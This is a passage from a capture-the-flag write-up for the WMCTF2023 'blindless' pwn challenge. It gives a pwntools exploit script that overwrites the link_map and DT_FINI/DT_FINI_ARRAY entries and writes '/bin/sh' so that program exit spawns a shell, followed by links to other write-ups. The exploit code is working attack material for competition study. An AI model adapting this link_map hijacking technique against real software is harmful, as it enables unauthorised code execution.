[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100851-a644b772-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100856-a940ce98-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100902-ac64064e-52a3-1.png)

##### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
# from ae64 import AE64
# from LibcSearcher import *

context.os = 'linux'
context.arch = 'amd64'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    p = process(name)

libcso = './libc-2.31.so'
libc = ELF(libcso)
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def write(content):
    res = b''
    for i in range(len(content)):
        res += b'.' + p8(content[i]) + b'>'
    return res

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

ru('size\n')
sl(str(0x100000))
ru('size\n')
sl(str(0x100))
ru('code\n')

argv0 = 0x33d968
l_addr = 0x33e190
dt_fini = 0x33e190+0xa8
dt_fini_array = 0x33e190+0x110

payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00')
payload += b'@' + p32(l_addr-argv0-8) + write(p8(0xe0))
payload += b'@' + p32(dt_fini-l_addr-1) + write(p8(0xa8))
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0))
payload += b'q'
#dbg()
sl(payload)


itr()
```

​​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230914101015-d7f0af92-52a3-1.png)  
​​

‍

### 参考链接：

[WMCTF2023 pwn 部分wp - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/652099671#blindless)

[2023 WMCTF (gitee.io)](https://grxer.gitee.io/2023/08/28/2023wmctf/#blindless)

[WMCTF 2023 Writeup - 星盟安全团队 (xmcve.com)](http://blog.xmcve.com/2023/08/22/WMCTF-2023-Writeup/#title-16)
